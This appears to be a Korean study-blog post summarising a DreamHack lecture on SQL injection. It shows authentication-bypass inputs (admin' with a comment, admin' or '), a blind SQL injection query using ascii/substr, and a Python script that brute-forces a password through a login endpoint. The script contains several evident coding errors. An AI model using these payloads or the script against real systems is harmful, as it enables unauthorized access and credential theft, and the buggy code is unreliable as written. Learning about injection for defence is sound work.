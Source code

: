 ```yaml
---
layout: single
title:  "ServerSide : SQL Injection"
categories: DreamHack
tag: [DreamHack, WebHacking,SQL,Injection]
toc: true
author_profile: false
---
```


# ServerSide : SQL Injection

[SQL Injection](https://dreamhack.io/lecture/courses/191)
 
DMBS에서 관리하는 데이터베이스에는 민감한 정보가 포함될 수 있다. 공격자는 데이터베이스 파일 탈취 SQL Injection 공격 등으로 해당 정보를 확보하고 악용할 수 있다. 

오늘은 DBMS에서 사용하는 쿼리를 임의로 조작해 데이터베이스의 정보를 획득하는 SQL Injection에대해 배운다.

그 전에 Injection은 주입이라는 의미를 가진 단어로 인젝션 공격은 이용자의 입력값이 처리과정에서 구조나 문법적인 데이터로 해석되어 발생하는 취약점이다.

## SQL Injection

SQL 은 DBMS에 데이터를 질의하는 언어이다. 웹 서비스에는 이용자의 입력을 SQL 구문에 포함해 요펑하는 경우가 있다(ex: 로그인, 게시글). 

아래 코드는 로그인 할 때 애플리케이션이 DBMS에 질의하는 쿼리이다.

```sql
SELECT * FROM accounts WHERE user_id='dreamhack' and user_pw='password'
```

쿼리문을 살펴보면 이용자가 입력한 "dreamhack"과 "password"문자열을 SQL 구문에 포함이 된다. 이렇게 문자열을 삽입하는 행위를 SQL Injection이라고 한다. SQL Injection 이 발생하면 조작된 쿼리로 인증을 우회하거나, 데이터베이스의 정보를 유출할 수 있다.


아래 쿼리문은 SQL Injection으로 조작한 쿼리문이다.

```sql
SELECT * FROM accounts WHERE user_id='admin' 
```

쿼리문을 보면 user_pw의 조건문이 사라진걸 알 수 있다.  조작한 쿼리문을 통해 질의하면 DBMS는 ID 가 admin인 계정의 비밀번호를 비교하지않고 해당 계정의 정보를 들고 온다.

주석이나 항상 참이되는 값을 이용해서 쿼리문을 조작 할 수 있다.

----
uid 와 upw를 입력받는 모듈이 있고, 코드가 아래와 같을 때

```sql
Select uid from user_table where uid='' and upw=''
```

문자열을 구별하기 위해 ' 문자를 사용하고 있기 때문에 uid 입력값에 admin'을 입력하면 뒤에 문장들은

```sql
Select uid from user_table where uid='admin'' and upw=''
```
처럼 바뀐다.

뒤에 주석 #을 추가해 뒷 내용을 주석화 할 수 있다.

혹은 admin' or ' 을 입력해 뒷내용이 항상 참으로 만들 수 있다.

### Blind SQL Injection

Blind SQL Injectio이라는 다른 공격기법으로 데이터베이스의 내용을 알 수 있다.

해당 공격 기법은 스무고개 게임과 비슷한 방법으로 질문을 해서 답변을 얻어 알아내는 방법이다.

ascii 값과 substr 함수로 Blind SQL Injection 을 할 수 있다.

----
substr 함수
```python
substr(string , position, length)
substr('ABCD',1,1)='A'
substr('ABCD',2,2)='BC'
```

----

공격 코드

```sql
#  114='r',115='s'

SELECT * FROM user_table WHERE uid = 'adim' and ascii(substr(upw,1,1)) = 114 --' and upw=' '
#False


```

Blind SQL Injection 공격은 하나하나 값을 비교해야되기 때문에 비교적 오랜 시간이 걸린다는 단점이 있다. 이를 해결하기 위해 Python 코드로 자동화해 얻을 수 있다.

```python
import requests
import string

url = 'http://example.com/login'

params = {
    'uid':''
    'upw':''
}

tc = string.ascii_letters + string.digits + string.punctuation

query = '''
admin' and ascii(substr(upw,{idx},1))={val}--
'''

pasword = ''

for idx in range(0,20):
    for ch in tc:
        params['uid'] = query.format(idx=idx,val=ord(ch)).strip("\n")

        c = requests.get(url,params=params)

        print(c.requests.url)
        if c.text.find("Login success") != -1:
            password += chr(ch)
            break

print(f"Password is {password}")
```

